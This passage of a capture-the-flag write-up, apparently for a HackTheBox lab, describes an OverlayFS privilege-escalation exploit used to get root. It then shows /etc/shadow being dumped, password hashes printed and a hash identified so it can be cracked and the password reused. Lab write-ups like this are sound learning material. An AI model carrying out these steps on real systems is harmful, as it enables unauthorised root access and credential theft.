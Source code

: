 The vulnerability lays in the fact that an unprivileged user may be able to set privileged extended attributes on a file mounted via `OverlayFS`. So int the PoC we use OverlayFS to mount a directory then add some capabilities to python3 in that diretory (`cap_setuid`) which normally require root permissions to do so. Once that's done, python3 in that directory is able to copy the `bash` executable, change its permission to make it setuid (since it has root ownership) and run it, which in turns effectively grants us a root shell.

This PoC was in a GitHub repository right [here](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?tab=readme-ov-file). Obviously, the machine cannot  resolve `github.com` as a hostname, so we'll have to spin up our trusty Python http server and download it, then run the exploit :

<img src="/assets/img/HospitalWriteup/hosp9.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

Alright we we're root here, we cannot really escape WSL jail froim here but we can probably get some credentials. Let's get that `/etc/shadow` file!

```
cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
[...]
www-data:*:19462:0:99999:7:::
[...]
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::

```

We've got some hashes! `root`'s password is probably autogenerated and not reused, but we can probably crack `drwilliams` password and reuse it in that mailserver we've seen earlier.

Let's crack that hash. First we need to check out what type of hash this is :

```
kyll@kyll-Latitude-3520:~/Desktop/code_folder/Software_exploitation/HTB$ hashid -j
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/ 
Analyzing '$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/'
[+] SHA-512 Crypt [JtR Format: sha512crypt]
```
